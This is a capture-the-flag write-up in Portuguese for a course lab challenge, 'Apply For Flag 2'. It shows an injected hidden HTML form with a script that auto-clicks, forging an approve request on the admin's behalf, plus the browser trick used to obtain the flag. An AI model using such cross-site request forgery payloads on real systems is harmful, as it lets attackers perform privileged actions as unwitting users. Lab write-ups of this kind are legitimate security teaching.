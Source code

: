 # Apply For Flag 2 - CTF Extra

Ao entrar no site verificamos que é semelhante ao site do CTF da semana 10 'Apply for flag', exceto desta vez o *request* tem um id especifico:

![Request ID](../Images/applyforflag1.png)

Verificamos na página do admin que a porta da página muda de 5004 para 5005 e o form do *request* tem esta estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit"> 
        <input type="submit" id="giveflag" value="Give the flag" disabled="">   
    </div>
</form>
```

`request_id` é aquele apresentado na página inicial. Com isto em conta, construimos um novo form para aceitar o pedido:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo só isto, verifica-se que é feito um redirecionamento para o url da ação da form e não temos permissão para isto. 

![Não permissão](../Images/applyforflag2.png)

Assim, devemos impedir o redirecionamento do nosso lado, mas que este seja feito do lado do admin de qualquer maneira, já que o admin tem permissão. Para isto, desabilitamos o javascript da página no nosso browser:

![Desativar javascript](../Images/applyforflag3.png)

Fazendo de novo, verificamos que ja é feito o redirecionamento para a página certa, mas o request ainda não foi avaliado.

![Request not evaluated yet](../Images/applyforflag4.png)

Isto acontece porque, ao desativar o javascript foi desativado o script que faz reload a página, pelo que é necessário fazer reload manualmente: 

![Flag](../Images/applyforflag5.png)

Como é possivel observar, obtemos a flag.